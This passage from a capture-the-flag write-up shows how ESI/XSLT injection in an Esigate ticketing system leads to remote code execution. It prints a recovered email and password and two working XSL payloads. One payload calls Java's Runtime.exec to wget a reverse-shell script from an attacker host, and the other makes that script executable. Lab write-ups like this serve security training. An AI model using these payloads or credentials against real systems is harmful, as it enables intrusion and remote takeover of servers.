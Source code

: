 * cool we found the email

> Email:**elisa@wink.co.uk**, Password:**Quick4cc3$$**

> ![](https://i.ibb.co/Rz834Y4/done.png)

> This is a Ticketing System which is powered by Esigate and the Esigate vulnerable to XSLT injection which leading to RCE.

> ![](https://i.ibb.co/GkKZTHD/esi.png)

> accordind to this article [ESI Injection Part 2](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/), we need xml,xsl files, so let me explain what i did in this point.

* note: We cant use two or more ticket containg the same filename so everytime any failure happen you need to rename your .xml and .xsl file.

> i make three xml files and three xsl files, **the important is the xsl file, i named the file upload.xsl,chmod.xsl,execute.xsl**, and also for xml files.

> the first file which name is upload.xsl this will upload my bash script which contain a reverse shell.

> the seconed file which name is chmod.xsl will give the bash script executable right.

> the third file which name is execute.xsl will run my file. here is the content of the files.

### []() upload.xsl

```ruby
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.16.44:8000/user.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>

```

### []()chmod.xsl

```ruby

<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[chmod +x ./user.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>

```